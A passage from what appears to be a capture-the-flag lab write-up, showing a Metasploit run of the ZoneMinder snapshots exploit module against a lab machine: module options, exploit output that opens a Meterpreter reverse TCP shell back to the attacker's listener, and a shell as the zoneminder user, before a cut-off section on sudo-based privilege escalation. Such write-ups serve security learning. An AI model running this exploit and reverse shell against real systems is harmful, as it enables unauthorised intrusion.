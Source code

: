 ```bash
   FETCH_FILENAME      zCaBjCTwPNZ      no        Name to use on remote system when storing payload; cannot contai
                                                  n spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               xx.xx.xx.xx      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   nix Command



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/zoneminder_snapshots) > exploit

[*] Started reverse TCP handler on xx.xx.xx.xx:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Elapsed time: 18.276545536999947 seconds.
[+] The target is vulnerable.
[*] Fetching CSRF Token
[+] Got Token: key:f06ff060f84e8b20b7d6bd3a4ee34a3479428d47,1712871056
[*] Executing nix Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (3045380 bytes) to 10.10.11.245
[*] Meterpreter session 1 opened (xx.xx.xx.xx:4444 -> 10.10.11.245:44972) at 2024-04-11 23:30:55 +0200
[+] Payload sent

meterpreter > shell
Process 48175 created.
Channel 1 created.
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

After some shell stabilization, we are ready to target the root account.

### Exploiting service scripts

This time when checking the allowed commands with `sudo` privilege, there are some very interesting result:

